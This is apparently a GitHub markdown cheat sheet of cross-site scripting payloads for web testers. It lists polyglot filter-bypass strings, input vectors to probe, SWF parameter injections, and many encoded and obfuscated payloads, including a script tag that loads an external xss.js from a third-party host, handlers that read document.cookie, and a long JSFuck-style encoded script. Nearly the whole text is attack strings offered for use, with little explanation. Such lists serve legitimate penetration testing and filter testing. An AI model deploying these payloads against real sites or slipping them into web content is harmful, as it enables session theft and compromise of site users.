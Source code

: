 # XSS

Core Idea: Does the page functionality display something to the users?

For time sensitive testing the 80/20 rule applies. Many testers use Polyglot payloads. You probably have too!

## Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)

```Javascript
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

## Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)

```Javascript
 ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
￼￼```

## Multi-context polyglot payload (Mathias Karlsson)

```Javascript
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

## ￼Other XSS Observations

Input Vectors:

- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

## SWF Parameter XSS

Common Params:
onload, allowedDomain, movieplayer, xmlPath, eventhandler, callback (more on OWASP page)

Common Injection Strings:￼

```Javascript
\%22})))}catch(e){alert(document.domain);}//
```


```Javascript
"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//
```


```Javascript
"a")(({type:"ready"}));}catch(e){alert(1)}//
```

## Different xss payloads

```Javascript
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>

<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">

<a onmouseover="alert(document.cookie)">xxs link</a>
<a onmouseover=alert(document.cookie)>xxs link</a>

%3CScript%3Econfirm()%3C/Script%3E
src%27%27%20onerror=confirm(1)%20onerror=alert(1)
%3Cscript%20%3Eeval(String.fromCharCode(97,%20108,%20101,%20114,%20116,%2040,%2039,%2049,%2051,%2051,%2055,%2039,%2041))%3C/script%3E
%22%20onkeyup=%27alert(1)%27
%3Cscript%3E%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%5B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%5B%5D%5B%5B%5D%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%5B%5D%5B%5B%5D%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%28%28%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%5B%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%5B%28%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%5B%21%5B%5D%5D%2B%5B%5D%5B%5B%5D%5D%29%5B%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%2B%28%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%21%2B%5B%5D%5D%2B%28%21%21%5B%5D%2B%5B%5D%29%5B%2B%21%2B%5B%5D%5D%5D%29%5B%21%2B%5B%5D%2B%21%2B%5B%5D%2B%5B%2B%5B%5D%5D%5D%29%28%29%3C/script%3E
<SVG ONLOAD=%26%2397%26%23108%26%23101%26%23114%26%23116(1337)>
<script >eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 39, 49, 51, 51, 55, 39, 41))</script>
```

## XSS vector (Chrome)

<link rel='preload' href='#' as='script' onload='confirm(domain)'>
